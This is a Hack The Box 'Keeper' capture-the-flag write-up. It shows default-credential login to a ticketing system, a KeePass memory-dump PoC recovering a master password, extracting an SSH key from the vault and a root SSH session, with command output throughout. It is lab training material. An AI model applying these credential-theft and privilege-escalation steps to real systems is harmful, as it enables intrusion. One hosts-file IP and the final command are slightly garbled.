



# Keeper HTB

We'll start with a basic nmap scan across all ports:
```bash

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The base web page has this link, the URL is redirecting to:
`http://tickets.keeper.htb/rt/`


I'll dump the domain name into the `/etc/hosts` file:
`110.10.11.227    tickets.keeper.htb keeper.htb`



We can sign in using the default credentials of `root` and `password`
Checking through the tickets, there's one open about a KeePass issue on the users Windows box



Some further poking around, we can see that the user Inorgaard has their user password in the profile:



Once we're on this box, we'll grab two files that were alluded to in the ticket:
```bash
lnorgaard@keeper:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.37 - - [31/Jan/2025 08:31:03] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:08] "GET /passcodes.kdbx HTTP/1.1" 200 -
10.10.14.37 - - [31/Jan/2025 08:31:26] "GET /KeePassDumpFull.dmp HTTP/1.1" 200 -
```

A quick google on KeePass memory leak shows a common CVE from back in 2023.
I'll grab this Python3 PoC designed for the CVE and run it against the crash file we received:
https://github.com/z-jxy/keepass_dump

```bash
└─$ python3 keepass_dump.py -f KeePassDumpFull.dmp --recover --debug -o out.txt
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
---snip---
[*] 10000000 bytes since last found. Ending scan.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
[?] Recovering...
[-] Couldn't verify plaintext match in dump for: dgrd med flde
[*] Saved 1 combinations to out.txt
``` 

The string doesn't make much sence, but I'll copy it into Google to see other common references.
We get a close match to a Danish red berry pudding (I'm assuming our compromised RT name is also Danish).
`Rødgrød med fløde` 

I'll use this as the Master Password to access the passcode database that we copied before and get access.

Under the Network folder, we have an entry for `keeper.htb (Ticketing Server)` that has an SSH RSA key in the comments.
I'll save this to a file on my machine, and use that along with the password to try get a root session to the box

Before we can do this, we'll need to convert the key from the PuttyGen format to OpenSSH:
`puttygen puttyKey.ppk -O private-openssh -o privKey` 

Now we can use it to establish our connection:

```bash
└─$ ssh -i privKey root@10.10.11.227 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# cat /root/root.txtbash
```
